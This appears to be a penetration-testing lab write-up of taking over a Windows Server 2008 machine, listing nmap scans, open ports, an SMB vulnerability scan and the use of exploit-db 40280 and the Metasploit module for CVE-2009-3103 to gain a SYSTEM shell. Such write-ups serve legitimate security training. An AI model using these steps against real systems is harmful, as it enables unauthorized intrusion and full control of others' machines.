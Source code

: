 ### Enumeration
```
IP=192.168.158.40
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p53,135,139,445,3389,5357,49152,49153,49154,49155,49156,49157,49158 -A $IP
```
### Ports 
- 53
	- Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
- 135
	- RPC
- 139
	- RPC
- 445
	- Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
- 3389
	- ssl/ms-wbt-server
- 5357
	- Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 49152
	- RPC
- 49153
	- RPC
- 49154
	- RPC
- 49155
	- RPC
- 49156
	- RPC
- 49157
	- RPC
- 49158
	- RPC
- OS: Windows 2008
### Foothold
- 445
	- smbclient -N -L //$IP
		- Login successful
		- No shares
	- nmap --script smb-vuln* -p135,139,445 $IP
		- SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)  -  vulnerable
			- exploit-db 40280
				- python2 40280.py $IP
					- Needs admin password
				- Adjusted script to have correct LHOST
				- Seems to crash host
			- MS09_050
				- Used msf windows/smb/ms09_050_smb2_negotiate_func_index
				- Now we have a shell as nt auth system
### Lessons Learned
- Check smb for vulnerabilities
- Try using them locally before moving to msf